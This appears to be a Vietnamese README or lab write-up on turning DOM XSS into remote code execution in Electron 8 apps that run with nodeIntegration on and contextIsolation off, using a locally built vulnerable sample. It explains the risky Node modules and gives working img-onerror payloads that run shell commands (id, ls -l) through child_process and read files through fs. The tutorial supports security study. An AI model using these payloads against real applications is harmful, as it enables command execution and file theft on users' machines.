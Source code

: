 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

Chúng ta sẽ lợi dụng sự tự do truy cập các API Node.js

Nói qua 1 xíu về API Node.js
API Node.js là môi trường thực thi code Javascript phía server máy chủ . sử dụng V8 engine, engine Javascript cùng một loạy các API tích hợp để cung cấp CHỨC NĂNG TƯƠNG TÁC VỚI HỆ ĐIỀU HÀNH hơn là chỉ chạy trong môi trường trình duyệt thông thường nhưu javascript .

Module thường xuyên bị attacker lợi dụng , nhất là khi API Node.js được dùng trong một môi trường với ít các biện pháp bảo mật , như là Electron khi ‘nodeIntegration’ <nút tích hợp> được bật . Các module thường bị lợi dụng là:
1.	Child_process : module cho pháp thực thi lệnh hệ thống hoặc các chương trình khác . Đại loại là child_process sẽ được lợi dụng để chạy shell .
2.	fs ( File system ) : lợi dụng để chỉnh sửa xóa , thêm file tùm lum . Cài phần mêm độc hại như file upload 
3.	‘net’ và ‘dgram’ : chiếm quyền tương tác với giao thực mạng TCP , UDP -> mở kết nối mạng độc hại hoặc thực hiện Dos
4. **`vm`**: Đây là một module cho phép bạn thực thi JavaScript trong một context ảo. Nó có thể bị lợi dụng để chạy mã độc trong một môi trường tưởng chừng được cô lập.
    5. **`os` và `path`**: Mặc dù ít nguy hiểm hơn các module khác, nhưng khi được kết hợp với các module như `fs`, chúng có thể được sử dụng để xây dựng các đường dẫn đến các tệp tin quan trọng hoặc thu thập thông tin về hệ thống mục tiêu.
=> Sử dụng suyntax của API Node.js để khai thác

Chúng ta sẽ ứng dụng và giải thích luôn 1 payload điển hình : 
```
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
```
1.	<img src=x : đoạn script này bắt đầu định nghĩa HTML image element.
Gán cho src=x nghĩa là không phải đường dân ảnh source ảnh hợp lệ . Nên đương nhiên sẽ kích hoạt sang onerror <đây là cố tình không điền src hợp lệ để điều hướng thực thi qua onerror >
2.	onerror= : đây là thuộc tính xử lí được kích hoạt khi src không hợp lệ
3.	alert(require(‘child_process’).execSync(‘id’).toString()); : Code Javascript này được thực thi do sự kiện onerror . 
*  Phần require(‘child_process’).execSync(‘id’) là lệnh Node.js sử dụng module child_process để thực thi lệnh hệ thống (system command) ‘id’ , lệnh này sẽ output ID của nhóm và người dùng thực (real and effective user and group IDs)
*  Phương thức execSync có nghĩa là thực thi lệnh một cách đồng bộ
execSync (viết tắt của executes synchronnously : thực thi đồng bộ). Nghĩa là nó sẽ chặn việc thực thi tiếp theo cho đến khi lệnh hệ thống (system command) trả về kết quả . 
Lệnh ‘id’ trả về thông tin về người dùng hiện tại như là ID người dùng (uid), ID nhóm (gid) và bất kì thành viên nhóm nào .

* Phương thức .toString() : chuyển đổi đầu ra của lệnh từ bộ đệm thành biểu diễn chuỗi (from buffer to a string representation)

* alert() là phương thức javascript tiêu chuẩn để hiển thị hộp thoại cánh báo với nội dung được chỉ định

Ứng dụng vào thực hành với file vulnerable1 <để ở trên>

File chứa lỗ hổng được "trích xuất" ra từ Electron 8.0.0

File:
vulnerable1/renderer.js

 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)

Đọc được cả file nếu muốn 
```
<img src=x onerror=”alert(require(‘fs’).readFileSync(‘main.js’).toString());”>
```

![image](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/05068ccd-5568-47be-a810-0d6dd6028399)
